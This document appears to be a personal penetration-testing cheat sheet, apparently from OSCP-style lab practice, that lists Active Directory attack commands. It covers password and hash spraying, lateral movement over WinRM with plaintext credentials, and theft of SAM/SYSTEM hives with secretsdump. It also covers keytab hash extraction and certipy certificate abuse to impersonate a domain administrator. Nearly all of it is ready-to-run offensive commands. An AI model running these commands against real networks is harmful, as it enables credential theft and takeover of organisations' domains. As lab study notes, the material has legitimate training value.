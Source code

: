 ## DomainPasswordSpray.ps1
```powershell
Import-Module .\DomainPasswordSpray.ps1
```
```powershell
Invoke-DomainPasswordSpray -Password Welcome1 -OutFile spray_success -ErrorAction SilentlyContinue
```

---
                                                                                                                           
PSSession script to to connect to another windows device in the internal network:
	`$User = "wario"`
	`$Password = ConvertTo-SecureString "Mushroom!" -AsPlainText -Force`
	`$Credential = New-Object -TypeName System.Management.Automation.PSCredential -ArgumentList $User, $Password`
	`$Session = New-PSSession -ComputerName client02.medtech.com -Credential $Credential`
	`Invoke-Command -Session $Session -ScriptBlock {`
	    `hostname }`

`winrs -r:http://prod01.medtech.com:5985 -u:leon -p:"rabbit:)" "cmd"`



Getting hashes from SAM/SYSTEM Files
	- C:\windows.old\Windows\System32\SAM
		- `download C:\windows.old\Windows\System32\SAM /home/daniel/OSCP_A/SAM`
			- evil-winrm command to download file to kali
			- make sure to include whole filepath with name of file 'SAM' at the end
	- C:\windows.old\Windows\System32\SYSTEM
		- `download C:\windows.old\Windows\System32\SYSTEM /home/daniel/OSCP_A/SYSTEM`
	- `secretsdump.py -sam SAM -system SYSTEM local`


`arp -a`


winrs

spray hashes:
`nxc winrm hosts.txt -u users.txt -H hashes.txt --continue-on-success`

search for domain certificates using certipy
```
certipy find -u peter.turner@hybrid.vl -p 'b0cwR+G4Dzl_rw' -dc-ip 10.10.186.213 
```
- returns a bunch of info on the domain, can be put into bloodhound

if "Domain Computers" has Enrollment Rights and you have access to a domain-joined machine, search for the `krb5.keytab` file, usually stored at `/etc/krb5.keytab` on linux
- transfer to home machine and run:
```
python3 keytabextract.py krb5.keytab
```
- get the ntlm hash and use with certipy:
```
certipy req -u 'MAIL01$' -hashes ":0f916c5246fdbc7ba95dcef4126d57bd" -dc-ip "10.10.232.21" -ca 'hybrid-DC01-CA' -template 'HYBRIDCOMPUTERS' -upn 'administrator' -target 'dc01.hybrid.vl' -key-size 4096 -debug
```
- make sure IPs are listed in `/etc/hosts`
- `-template 'HYBRIDCOMPUTERS'` is from certipy.txt output file
- should save certificate and private key to administrator.pfx
```
certipy auth -pfx 'administrator.pfx' -username 'administrator' -domain 'hybrid.vl' -dc-ip 10.10.232.21
```
- get administrator hash to PTH with evil-winrm or whichever shell
